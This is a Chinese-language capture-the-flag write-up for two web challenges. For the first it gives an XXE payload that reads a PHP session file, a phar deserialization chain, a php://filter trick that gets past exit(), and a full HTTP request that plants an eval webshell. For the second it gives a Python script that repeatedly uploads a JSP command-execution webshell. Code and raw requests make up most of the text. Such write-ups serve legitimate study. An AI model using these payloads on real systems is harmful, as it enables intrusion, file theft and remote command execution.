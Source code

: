 # web1

UpStorage第一步XXE读文件，利用伪协议读文件，然这题目就开始恶心了，环境的问题没办法获取到我们的真实IP，但是好在代码中：![img](https://uploader.shimo.im/f/90gP8AnXHgJtEvok.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJhdWQiOiJhY2Nlc3NfcmVzb3VyY2UiLCJleHAiOjE2MzkyMzYwNjIsImciOiI2ZFY5amgzVzhkWFJxV0dXIiwiaWF0IjoxNjM5MjM1NzYyLCJ1c2VySWQiOjI4MDg0NzYzfQ.AuzmrfdJ9Mwb8O1NtS7ljo3LPPmD_TeOcUHyDb1dzWY) 所以可以读取session文件获取IP

```xml
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "php://filter/convert.base64-encode/resource=/var/lib/php/sessions/sess_ealdo5l9g3ag4epphbg43top56">

  ]>
<user><username>&admin;</username><password>1</password></user>

```

得到10.0.244.155和test拼接md5一下：9603c62adf13a9213ea31b712d5c320f之后就是phar反序列化+XXE拼接起来

```
$welcome = new Welcome();
$weclome2 = new Welcome();
$file = new File();
$file->filename = new User();
$weclome2->username = "class.php";
$weclome2->password = "123";
$weclome2->verify = $file;
//
$welcome->username = $weclome2;
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($welcome); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
签名自动计算
$phar->stopBuffering();
echo 1111;
echo urlencode(serialize($welcome));
unserialize($_POST[1]);
unserialize(serialize($welcome));

User类里面写成：
public $db;
private $func="call_user_func";
protected $param;
public function __construct() {
    global $db;
    $this->param =[new Logs(),"log"];
    $this->db = $db;
}


```

绕过死亡exit用的wmctf的

```
php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e.php 

```





```
POST /login.php?log=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=upload/2.php  HTTP/1.1
Host: eci-2ze2ptl1d7s4vp1gil9w.cloudeci1.ichunqiu.com
Content-Length: 201
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://eci-2ze2ptl1d7s4vp1gil9w.cloudeci1.ichunqiu.com
Referer: http://eci-2ze2ptl1d7s4vp1gil9w.cloudeci1.ichunqiu.com/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=j4llm5p0dqshap1669d9s6cka1; __jsluid_h=ccec71fc4178757eee43646dc4eb32d7
Connection: close

<!DOCTYPE note [
  <!ENTITY admin SYSTEM "phar://./upload/9603c62adf13a9213ea31b712d5c320f/bf21a14d8b0eb60f8b95ae0df61162b8.jpg">
  ]>
<user><username>&admin;</username><password>1</password></user> 

```





# web2 hackme

原题然后多了个爆破步骤：

java弄一下：

```java
import java.text.DateFormat;
import java.text.ParseException;
import java.text.SimpleDateFormat;
import java.util.Calendar;
import java.util.Date;

public class test {
    public static void main(String[] args) {
        Date now = new Date();
        DateFormat df = new SimpleDateFormat("yyyyMMddhhmmssSSS"); //yyyy-MM-dd HH:mm:ss
        System.out.println(df.format(now));
    }


}

```





```python
#coding:utf-8
import requests

def uploads(filedata, filename):
    with open(filename, 'wb') as f:
        f.write(filedata)

    r = requests.post('http://eci-2zecgla9evo3kh68k8s9.cloudeci1.ichunqiu.com:8888/UploadServlet', files={"filename": open(filename, "rb")})

    # print(r.text)
    # if "文件上传成功! 文件路径: /usr" in r.text:
    #     url = "http://123.60.20.221:10001/" + r.text.replace(
    #         "文件上传成功! 文件路径: /usr/local/apache-tomcat-8.5.72/webapps/ROOT/", "")
    #     print(url)
    #     r = requests.get(url)
    #     print(r.text)


if __name__ == '__main__':
    for i in range(100):
        data = '''<% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>'''.encode("utf-16")
        uploads(data, "1.jsp")
        print(i)
```



爆破出来：

![image-20211211231533145](https://gitee.com/yyssllz/pic/raw/master/image-20211211231533145.png)



![image-20211211231242038](https://gitee.com/yyssllz/pic/raw/master/image-20211211231242038.png)
